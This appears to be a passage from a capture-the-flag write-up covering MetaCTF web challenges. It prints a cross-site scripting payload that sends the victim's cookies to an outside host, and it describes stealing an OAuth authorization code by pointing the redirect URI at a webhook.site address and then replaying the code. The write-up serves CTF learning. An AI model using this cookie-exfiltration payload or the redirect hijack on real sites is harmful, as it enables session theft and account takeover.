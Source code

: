 `' onfocus='document.location="https://www.nguyenphuoc.net/ctf/cookie.php?c=" + document.cookie' autofocus="`

We need to use JSFuck as mentioned in the post to convert the function to lowercase. By inspecting the cookie we found the flag:

> MetaCTF{aLl_y0uR_c00k1es_R_beLonG_2_uS} 


# My Code is Your Code

Using webhook again:

https://metaproblems.com/2ab6461d240267b782d7144c2585a4b4/AuthorizationSecurityLtd/authorize.php?response_type=code&client_id=consumerrights74m1neigr7749i0m&redirect_uri=https://webhook.site/6ffd493a-4bb0-4c86-9d6c-870a1e84a5c4

![](img/webhook.png)

I'm using firefox and while inspecting all of the code that were made through the flow, there is a suspicious GET request that include the code. Just edit and resend that request with the code we get from webhook and we will get the key.
